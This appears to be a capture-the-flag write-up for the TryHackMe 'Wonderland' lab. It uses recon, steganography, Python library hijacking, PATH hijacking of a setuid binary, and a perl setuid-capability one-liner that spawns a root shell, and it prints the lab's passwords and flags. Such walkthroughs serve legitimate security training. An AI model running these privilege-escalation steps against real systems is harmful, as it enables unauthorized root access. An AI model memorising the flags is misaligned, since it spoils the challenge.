

# Wonderland

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, steghide, binwalk

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.210.160

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.210.160
```


**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.6p1),<br>
    80 (http Golang),<br>

Enumerate hidden directories on website
```
dirb 10.10.210.160
```


Found: /r/a, /poem

### 2. STEGANOGRAPHY

Download images in http://10.10.210.160/img/

```
binwalk ./img/*
```


Looks like there is data hidden in alice_door.jpg

```
steghide extract -sf alice_door.jpg
```

passphrase required

try other image
```
steghide extract -sf white_rabbit_1.jpg
```

Found hint.txt


follow the R A B B I T

http://10.10.210.160/r/a/b/b/i/t/ leads to alice_door.png


Inspect element on http://10.10.210.160/r/a/b/b/i/t/


found potential ssh login

**USERNAME**: alice<br>
**PASSWORD**: HowDothTheLittleCrocodileImproveHisShiningTail

### 3. SSH

log into ssh
```
ssh alice@10.10.210.160
```

HINT: everything is upside down

root.txt was in alice's home directory so user.txt should be in root

```
cat /root/user.txt
```


**USER FLAG**: thm{"Curiouser and curiouser!"}

### 4. PIVOT TO RABBIT USER

Check user privileges
```
sudo -l
```


alice can run /usr/bin/python3.6 and /home/alice/walrus_and_the_carpenter.py as rabbit

Inspect python program

imports library called random


Calls the choice() method at the end


Create new random.py file and test it out


We can put in our own code in random.py and run the original python program as user rabbit

Modified random.py to spawn shell so when python program is run as rabbit it will create a shell for user rabbit


Run program as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```


```
cd /home/rabbit
file teaParty
```


ELF file

```
./teaParty
```


```
cat teaParty
```



Program is executing 
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

```
ls -la teaParty
```


Sticky bit is set so We can target the date command so it will be executed as root

### 5. PRIVILEGE ESCALATION

Create custom date script
```
mkdir bin
vim date
```


Add to PATH and run teaParty
```
export PATH="/home/rabbit/bin:$PATH"
./teaParty
```


Created hatter user shell

found password for hatter user<br>
**PASSWORD**: WhyIsARavenLikeAWritingDesk?

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
scp linpeas hatter@10.10.210.160:/home/hatter/linpeas
ssh hatter@10.10.210.160
chmod +x linpeas
./linpeas
```


From https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/<br>
We can exploit perl capabilities<br>
Capabilities are granular escalated user privileges for certain programs<br>
Perl has the capability to use the setuid function in order to become root

Can also use this command to check capabilities<br>
2 is standard error<br>
2>/dev/null redirects stderr to /dev/null
```
getcap -r / 2>/dev/null
```


We can use this command to exploit perl capabilities<br>
-e execute command<br>
use POSIX (setuid) imports setuid<br>
POSIX::setuid(0) sets the uid to 0 (root)
```
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```


**ROOT FLAG**: thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}